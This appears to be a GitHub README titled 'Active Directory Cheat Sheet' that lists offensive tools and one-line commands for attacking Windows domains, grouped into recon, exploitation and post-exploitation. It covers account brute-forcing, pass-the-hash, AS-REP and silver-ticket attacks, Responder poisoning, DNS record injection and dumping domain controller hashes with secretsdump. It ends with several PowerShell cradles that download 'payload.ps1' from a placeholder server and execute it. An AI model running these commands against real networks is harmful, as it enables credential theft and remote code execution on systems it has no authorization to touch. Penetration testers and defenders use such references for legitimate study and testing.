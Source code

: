 <pre>
               _   _             _____  _               _                   
     /\       | | (_)           |  __ \(_)             | |                  
    /  \   ___| |_ ___   _____  | |  | |_ _ __ ___  ___| |_ ___  _ __ _   _ 
   / /\ \ / __| __| \ \ / / _ \ | |  | | | '__/ _ \/ __| __/ _ \| '__| | | |
  / ____ \ (__| |_| |\ V /  __/ | |__| | | | |  __/ (__| || (_) | |  | |_| |
 /_/    \_\___|\__|_| \_/ \___| |_____/|_|_|  \___|\___|\__\___/|_|   \__, |
                                                                       __/ |
                                                                      |___/ 
               ___ _                _   __ _               _   
              / __\ |__   ___  __ _| |_/ _\ |__   ___  ___| |_ 
             / /  | '_ \ / _ \/ _` | __\ \| '_ \ / _ \/ _ \ __|
            / /___| | | |  __/ (_| | |__\ \ | | |  __/  __/ |_ 
            \____/|_| |_|\___|\__,_|\__\__/_| |_|\___|\___|\__|
                                                   
</pre>

### A compilation of tools and techniques targeting Active Directory and Domain Controlers.


#### 0x00 Mind Map
[Pentesting Active Directory](https://www.xmind.net/m/5dypm8/)


#### 0x01 Recon & Enumeration

##### [ARP-Scan](https://github.com/royhills/arp-scan)
Host discovery:

`arp-scan --interface=<INTERFACE> --localnet`


#### [Impacket-GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py)
Get user's non-preauth AS-Rep TGT:

`getnpusers <domain_name>/<user> -dc-ip=<domain_controller_ip>`


##### [Kerbrute](https://github.com/ropnop/kerbrute)
Enumerate or validate accounts through Kerberos Pre-Authentication [aka Pre-auth Bruteforcing]:

`kerbrute userenum --dc <DOMAIN CONTROLLER> -d <DOMAIN> <WORDLIST>` 


##### [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
Brute-force with User&Pass combinations:

`crackmapexec smb <IP> -u <USER LIST> -P <PASSWORD>`

Pass-The-Hash

`crackmapexec smb <HOST/RANGE> -u <USER> -H <NTLM HASH>`


##### [gMSADumper](https://github.com/micahvandeusen/gMSADumper)
LDAP Enumeration

`python3 gMSADumper.py -u <USER> -p <PASSWORD> -d <DOMAIN>`


#### [BloodHound](https://github.com/BloodHoundAD/BloodHound)
Authenticated Domain Enumeration

`bloodhound-python -u <user> -p <pass> -ns <domain_controler_ip> -d <domain_name> -c All`
##### _Please note that this configuration shall get you caught, as it is going to send a lot of queries against the domain._


#### 0x02 Exploitation

##### [Responder](https://github.com/lgandx/Responder/)

Listening for events:

`responder -I <NETWORK INTERFACE> -A`

##### [Impacket-getSTX](https://github.com/SecureAuthCorp/impacket)

Silver Ticket Attack

`python3 getST.py <DOMAIN>/<USER>$ -spn WWW/<DOMAIN CONTROLLER> -hashes :<HASH> -impersonate <USER TO IMPERSONATE>`


#### 0x03 Post-Exploitation

##### [KrbRelayX](https://github.com/dirkjanm/krbrelayx)

Add DNS records:

`python3 dnstool.py -u '<DOMAIN>\<USER>' -p '<PASSWORD>' -a add -r '<RECORD.DOMAIN>' -d <YOUR IP> <MACHINE IP>`

##### [Impacket-getADUser](https://github.com/SecureAuthCorp/impacket)

Authenticated User Enumeration

`python3 GetADUsers.py -all <DOMAIN>/<USER>:<PASS> -dc-ip <IP ADDRESS>`


##### [Impacket-SecretsDump](https://github.com/SecureAuthCorp/impacket)

Dump User Hashes from Domain Controller

`python3 secretsdump.py <DOMAIN>/<USER>:<PASS>@<MACHINE>`

##### Downloading files via PowerShell
`iex (New-Object Net.WebClient).DownloadString('http://server/payload.ps1')`


`$ie=New-Object -ComObject
InternetExplorer.Application;$ie.visible=$false;$ie.navigate('http://server/payload.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response`

###### PSv3 & onwards
`iex (iwr 'http://server/payload.ps1')`


`$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://server/payload.ps1',$false);$h.send();iex
$h.responseText`


`$wr = [System.NET.WebRequest]::Create("http://server/payload.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()`

